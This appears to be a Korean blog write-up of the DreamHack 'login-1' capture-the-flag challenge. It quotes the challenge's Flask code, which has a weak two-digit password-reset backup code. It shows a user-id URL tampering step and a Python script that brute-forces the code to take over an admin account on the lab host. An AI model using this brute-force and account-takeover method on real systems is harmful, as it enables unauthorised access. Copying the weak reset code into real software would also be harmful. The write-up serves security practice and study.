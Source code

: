 ```yaml
---
layout: post
title: "(DreamHack) login-1"
date: 2021-06-01 05:24:00 -0400
categories: Security CTF
---
```


## 풀이
플래그를 얻기 위해서는 유저 레벨이 'admin'인 계정으로 로그인해야 한다.

```python
userLevel = {
    0 : 'guest',
    1 : 'admin'
}
MAXRESETCOUNT = 5

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

@app.route('/admin')
def admin():
    if session and (session['level'] == userLevel[1]):
        return FLAG

    return "Only Admin !"
```


userid를 클릭하면 아래와 같은 화면이 나온다. 이때 url에 있는 17이란 숫자가 user에 부여되는 특정 id라고 가정하여 해당 숫자를 변경해 보았다.
![image](https://user-images.githubusercontent.com/24788751/120293279-0cf91980-c300-11eb-9c7f-aa502b0a3816.png)

이때 potato라는 사용자의 유저 레벨이 1인 것을 확인하였다.

![admin1](https://user-images.githubusercontent.com/24788751/120293014-cf948c00-c2ff-11eb-9c89-ab0a6e23ffae.PNG)

비밀번호 찾기를 통해 비밀번호를 수정하도록 한다.

```python
def makeBackupcode():
    return random.randrange(100)

@app.route('/forgot_password', methods=['GET', 'POST'])
def forgot_password():
    if request.method == 'GET':
        return render_template('forgot.html')
    else:
        userid = request.form.get("userid")
        newpassword = request.form.get("newpassword")
        backupCode = request.form.get("backupCode", type=int)

        conn = get_db()
        cur = conn.cursor()
        user = cur.execute('SELECT * FROM user WHERE id = ?', (userid,)).fetchone()
        if user:
            # security for brute force Attack.
            time.sleep(1)

            if user['resetCount'] == MAXRESETCOUNT:
                return "<script>alert('reset Count Exceed.');history.back(-1);</script>"
            
            if user['backupCode'] == backupCode:
                newbackupCode = makeBackupcode()
                updateSQL = "UPDATE user set pw = ?, backupCode = ?, resetCount = 0 where idx = ?"
                cur.execute(updateSQL, (hashlib.sha256(newpassword.encode()).hexdigest(), newbackupCode, str(user['idx'])))
                msg = f"<b>Password Change Success.</b><br/>New BackupCode : {newbackupCode}"

            else:
                updateSQL = "UPDATE user set resetCount = resetCount+1 where idx = ?"
                cur.execute(updateSQL, (str(user['idx'])))
                msg = f"Wrong BackupCode !<br/><b>Left Count : </b> {(MAXRESETCOUNT-1)-user['resetCount']}"
            
            conn.commit()
            return render_template("index.html", msg=msg)

        return "<script>alert('User Not Found.');history.back(-1);</script>";
```

백업 코드는 0이상 100미만의 수가 생성되기 때문에 브루트포스 방식을 통해 백업코드를 찾고 원하는 비밀번호로 변경할 수 있도록 하였다.

```python
import json
import requests

u = "http://host1.dreamhack.games:17892/forgot_password"
userid = "potato"

for i in range(0, 100):
    data = {'userid': "potato", 'backupCode': i, 'newpassword':"aaa"}
    res = requests.post(u, data=data)
    if res.status_code == 200:
        print(i, " was backup code")
        print(res.text)
    else: # 500
        print("-")
```